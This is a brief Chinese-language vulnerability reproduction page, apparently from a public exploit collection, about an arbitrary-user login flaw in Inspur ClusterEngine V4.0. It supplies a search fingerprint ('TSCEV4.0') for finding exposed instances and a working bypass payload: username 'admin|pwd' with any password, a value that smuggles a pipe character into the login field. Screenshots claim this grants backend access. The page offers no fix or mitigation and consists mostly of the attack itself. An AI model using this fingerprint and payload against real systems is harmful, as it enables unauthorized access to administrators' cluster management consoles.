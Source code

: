 # 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

<a-checkbox checked>浪潮ClusterEngineV4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="TSCEV4.0"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125110204.png)

```plain
USER： admin|pwd
PASS:  任意
```

成功登陆后台，部分功能是无法使用的



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125109949.png)